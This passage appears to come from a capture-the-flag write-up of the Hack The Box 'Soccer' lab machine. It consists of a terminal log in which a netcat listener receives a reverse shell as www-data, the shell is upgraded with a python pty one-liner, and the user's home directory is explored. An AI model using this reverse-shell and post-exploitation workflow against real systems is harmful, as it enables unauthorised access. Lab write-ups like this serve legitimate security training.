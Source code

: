     ![](/style/image/2024-02-07-22-09-11.png)

    ```
    ┌──(kali㉿kali)-[~/桌面/HTB/Soccer]
    └─$ nc -nlvp 4444
    listening on [any] 4444 ...
    connect to [10.10.16.7] from (UNKNOWN) [10.10.11.194] 38986
    Linux soccer 5.4.0-135-generic #152-Ubuntu SMP Wed Nov 23 20:19:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
    14:08:35 up  4:34,  0 users,  load average: 0.27, 0.34, 0.30
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    /bin/sh: 0: can't access tty; job control turned off
    $ which python
    $ which python3
    /usr/bin/python3
    $ python3 -c "import pty;pty.spawn('/bin/bash')"
    www-data@soccer:/$ pwd
    pwd
    /
    www-data@soccer:/$ dir
    dir
    bin   dev   lib    libx32      mnt   root  snap  tmp	  var
    boot  etc   lib32  lost+found  opt   run   srv	 usr
    data  home  lib64  media       proc  sbin  sys	 vagrant
    www-data@soccer:/$ cd home
    cd home
    www-data@soccer:/home$ dir
    dir
    player
    www-data@soccer:/home$ cd player
    cd player
    www-data@soccer:/home/player$ dir
    dir
    user.txt
    www-data@soccer:/home/player$ type user.txt
    type user.txt
    bash: type: user.txt: not found
    www-data@soccer:/home/player$ cat user.txt
    cat user.txt
    cat: user.txt: Permission denied
    ```
